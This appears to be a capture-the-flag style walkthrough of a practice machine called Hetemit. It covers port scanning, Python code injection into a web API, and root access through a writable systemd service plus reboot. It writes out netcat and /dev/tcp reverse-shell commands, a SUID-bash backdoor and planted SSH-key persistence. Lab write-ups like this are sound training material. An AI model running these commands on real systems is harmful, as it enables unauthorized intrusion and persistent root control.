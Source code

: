 # Hetemit

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:27 +08
Warning: 192.168.201.117 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.201.117
Host is up (0.18s latency).
Not shown: 65479 filtered tcp ports (no-response), 49 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
18000/tcp open  biimenu
50000/tcp open  ibm-db2
```

Lots of ports. FTP allows for anonymous access, but just hangs.&#x20;

### Web Enumeration --> Python Code Injection

Port 80 had the default Apache HTTP Server:

<figure><img src="../../../.gitbook/assets/image (68) (1).png" alt=""><figcaption></figcaption></figure>

Ran a directory scan on this and didn't find much.

Port 50000 had a simple API running:

<figure><img src="../../../.gitbook/assets/image (576).png" alt=""><figcaption></figcaption></figure>

If we use the `/generate` option, it just returns us this:

```
$ curl http://192.168.201.117:50000/generate
{'email@domain'}
```

I tried sending POST requests to this:

<figure><img src="../../../.gitbook/assets/image (86) (3).png" alt=""><figcaption></figcaption></figure>

Not too sure what to do with that token. However, we notice that this is running a Python server. The `/verify` endpoint also accepts POST requests, but it always seems to fail:

<figure><img src="../../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

Since this was running a Python based server, we can try some Python code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

This looks like it works. Another test confirms that it works:

<figure><img src="../../../.gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So this script has the `os` module imported, meaning we can get an easy reverse shell:

```python
os.system("nc -e /bin/bash 192.168.45.191 21")
```

<figure><img src="../../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Misconfigured Services + Reboot

The user is able to reboot the system:

```
[cmeeks@hetemit ~]$ sudo -l
Matching Defaults entries for cmeeks on hetemit:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

This indicates to me that there is some kind of startup script to exploit. I ran a `linpeas.sh` scan on the machine to enumerate, and it found quite a few misconfigured services:

<figure><img src="../../../.gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>

We can overwrite this to execute a script that gives us a reverse shell. I included the SUID bit in my script just in case the shell doesn't work:

```bash
#!/bin/bash

chmod u+s /bin/bash
bash -i >& /dev/tcp/192.168.45.191/18000 0>&1
```

I also included my SSH key within the `authorized_keys` folder for backdoor access.

```bash
cd ~
mkdir .ssh
echo 'KEY' >> .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 700 .ssh
```

Afterwards, using `vi` we can edit the service file:

```
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/shell.sh
TimeoutSec=30
RestartSec=15s
User=root
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

Then, we can run `sudo /sbin/reboot` to restart the machine. Then we just have to wait for a bit before we can SSH back in. The reverse shell didn't work for some reason, but the SUID binary command did:

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

Rooted!
